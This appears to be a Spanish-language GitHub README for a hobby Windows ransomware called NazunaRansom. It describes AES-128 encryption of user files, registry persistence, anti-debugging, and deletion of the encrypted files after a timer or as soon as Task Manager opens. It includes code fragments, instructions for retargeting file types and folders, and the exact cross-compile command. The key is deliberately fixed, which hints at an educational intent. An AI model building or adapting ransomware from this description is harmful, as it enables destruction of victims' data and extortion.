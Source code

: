 # NazunaRansom
Nazuna Ransomware v1, es un ransomware inspirado en mi waifu (Nazuna)

### Caracteristicas

- Usa cifrado AES-128 en modo CBC
- Cambia el fondo de pantalla (descarga la imagen de internet)
- Cifra los archivos de un directorio y sus subdirectorios
- Implementa una persistencia basica basada en el registro para ejectuar el ransomware cuando se vuelva a prender la computadora
- Crea un hilo el cual tiene un temporizador de 5 minutos antes de que llame a una funcion para que se eliminen los archivos cifrados (el temporizador se reinicia al cerrar sesion o apagar la computadora)
- Si se abre el administrador de tareas los archivos se eliminan inmediatamente
- Se implementa CheckRemoteDebuggerPresent como tecnica anti depuracion
- Se implementa una exclusion mutua (mutex) para que si la computadora ya fue infectada, no vuelve a crear otro proceso
- La key para cifrar los archivos esta intencionalmente creada para que sea la misma secuencia del 0 al 15

### Funciones de cifrado

**CryptAcquireContext**

```c++
if (!CryptAcquireContext(&nazuna.hProv, NULL, MS_ENH_RSA_AES_PROV, PROV_RSA_AES, 0)) {
  if (!CryptAcquireContext(&nazuna.hProv, NULL, MS_ENH_RSA_AES_PROV, PROV_RSA_AES, CRYPT_NEWKEYSET)) {
    return false;
  }
}
```
En el primer if trata de obtener el identificador del contenedor CSP, ```nazuna.hProv``` funciona como un puntero que almacena el identificador CSP, si no se puede obtener el identifcador se vuelva a llamar a ```CryptAcquireContext``` con ```CRYPT_NEWKEYSET``` para crear un contenedor de claves en CSP

**CryptGenKey**

```c++
CryptGenKey(nazuna.hProv, CALG_AES_128, CRYPT_EXPORTABLE, &nazuna.hkey);
```
Genera una key AES-128 de acuerdo al identificador del CSP y la key la almacena en ```nazuna.hkey```

**CryptEncrypt**

```c++
CryptEncrypt(nazuna.hkey, 0, true, 0, buf, &bytes_leer, BUF_LEN);
```
Cifra los datos de acuerdo al CSP, ```buf``` es un puntero al buffer datos que contiene los datos que se van a cifrar, ```bytes_leer``` es la cantidad de bytes que se van a cifrar, que son los bytes del archivo original, este buffer cifrado se sobreescribira por el original con unas funciones más adelante

### Funcion recorrer_dir

Las funciones ```FindFirstFile``` y ```FindNextFile``` se usan para recorrer el directorios y subdirectorios desde la ruta almacenada en ```ruta_encriptar```, el segundo if verifica si ```ruta_data``` es un directorio mediante el AND y ```FILE_ATTRIBUTE_DIRECTORY```, el tercer if usando ```strcmp``` se compara ```ruta_data.cFileName``` con ```.``` y ```..``` para ver si ```ruta_data``` se refiere al directorio actual(.) o al directorio padre(..), si es diferente de 0(que no corresponde a ninguno de los dos) y se cumple la condicion anterior, se crea una variable llamada ```subruta_recorrer``` la cual representa la ruta del subdirectorio que se va a recorrer y la agrega a ```subdirectorios```.

El penultimo if representa las extensiones y hace un ```OR``` entre todas las extensiones, si encuentra una extension entrara al ultimo if el cual verifica si ```cifrar_archivos``` regresa ```true```, y en caso de que si, cambia la extension del archivo a .Nazuna y lo renombra con esa extension

### Funcion eliminar_archivos_cifrados

Tiene un funcionamiento similar a recorrer_dir, solo que se verifica si la extension es igual a .Nazuna (```extension == ".Nazuna"```), y en caso de que si sea, se elimina el archivo

### Funcion persistencia

Es la que se encarga de que el ransomware de inicie al prender la compu e iniciar sesion, simplemente usa ```RegOpenKeyEx``` para abrir el registro en la ruta almacenada en ```lpSubKey``` y despues usa ```RegSetValueEx``` para establecer una entrada el registro, donde ```lpValue``` es la ruta del ejecutable, y ```lpValueName``` es el nombre del ejecutable.

### Funcion eliminar_archivos_routine

Es la funcion que se ejecutara al crear un hilo con ```CreateThread```, el parametro ```lpParam``` indica la ruta del directorio que se va a recorrer para eliminar los archivos, despues se agrega un pequeño temporizador de 5 minutos para "detener" la ejecucion del hilo 5 minutos antes de llamar a ```eliminar_archivos_cifrados```

### Detectar al administrador de tareas

Dentro del main cuando se hace uso de ```CreateThread```, si el identificador del hilo es diferente de NULL (hThread != NULL) entra en un bucle infinito donde mediante un if y la funcion ```FindWindowA``` esta constantemente buscando por la ventana con el nombre ```TaskManagerWindow``` y cuando la encuentre manda a llamar a ```eliminar_archivos_cifrados```

### Modificaciones

Dentro de la funcion ```recorrer_dir``` puedes especificar las extensiones de los archivos que quieres que se cifren:

```c++
if (extension == ".txt" || extension == ".cpp" || extension == ".pdf" || extension == ".docx" || extension == ".xlsx")
```

En la funcion ```main``` puedes especificar otro directorio que se va a cifrar

```c++
string ruta = filesystem::path(string(getenv("USERPROFILE")) + "\\Desktop").string();
```
Solo modifica ```Desktop``` por otra, ej: ```Documents```

En la funcion routine ```eliminar_archivos_routine``` le puedes indicar el tiempo en minutos que deseas que espere antes de borrar los archivos

```c++
this_thread::sleep_for(chrono::minutes(1)); <-- El numero indica los minutos
```

Puedes cambiar el valor del mutex por otro que no este en uso

```c++
#define MUTEX "TeAmoNazuna" --> #define MUTEX "otroValor"
```

En la funcion ```persistencia``` se ejecuta el ransomware desde la ruta Downloads con el nombre ```NazunaRansom```, puedes cambiar la ruta indicandolo en:

```c++
string ruta_descarga = filesystem::path(string(getenv("USERPROFILE")) + "\\Downloads").string();
```

Y puedes cambiar el nombre del ejecutable en:

```c++
LPCSTR lpValueName = "NazunaRansom";
```

### Compilado
Yo lo compile desde GNU/Linux con el comando

```bash
x86_64-w64-mingw32-g++ -o NazunaRansom NazunaRansom.cpp -lbcrypt -static -static-libgcc -static-libstdc++ -lurlmon
```

![](https://github.com/ic4rta/NazunaRansom/blob/main/Nazuna_Ransom_Fondo.jpg)

